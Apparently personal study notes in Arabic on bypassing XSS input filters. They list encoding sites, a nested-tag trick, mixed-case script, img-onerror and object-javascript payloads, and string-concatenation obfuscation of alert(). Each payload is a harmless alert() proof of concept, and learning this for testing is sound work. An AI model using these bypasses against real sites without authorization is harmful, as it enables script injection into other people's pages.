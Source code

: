 ## لو في كلمه بتتمنع مثلا script روح اعمل ecode لها بكل انواعه وجرب :
{ #XSS_Idea_for_script_tag / #XSS_ecoded_payload }
#### الشرح  :
![[2025-05-17 21-51-15.mkv]]

#### المواقع اللي في الشرح 
 - https://checkserp.com/encode/unicode/
- https://jsfuck.com/
- https://utf-8.jp/public/aaencode.html

-----
## لو في كلمه بتتمنع مثلا script روح اعمل الفكره دي :
{ #XSS_Idea_for_script_tag }
#### الشرح  :

![[2025-05-17 21-57-54.mkv]]

#### ال payload اللي في الشرح :
- `<scr<script>ipt>alert(1);</scr</script>ipt>`

----
## لو في كلمه بتتمنع مثلا script روح اعمل الفكره دي :
{ #XSS_Idea_for_script_tag}
#### الشرح  :
#### ![[2025-05-17 22-04-22.mkv]]: اللي في الشرح payload ال

```bash
<ScRiPt>alert(1);</ScRiPt>
<img src=x OnErRoR=alert(1)>
<object data="JaVaScRiPt:alert(1)">
```


----

## لو الموقع بيمنع ال alert نفسه يعني مش بيمنع كلمه او  رمز يعني الكود اشتغل بس هو اول م يشوف alert حصل بيمسح الكود 
{ #XSS_Obfuscation_payloads   / #XSS_with_out_alret }
#### الشرح  :
![[2025-05-24 20-41-08.mkv]]


#### ال payloads   اللي في الشرح : 
```bash
<script>window['al'+'ert']('XSS')</script
<script>window['a'+'l'+'e'+'r'+'t']('XSS')</script>
```
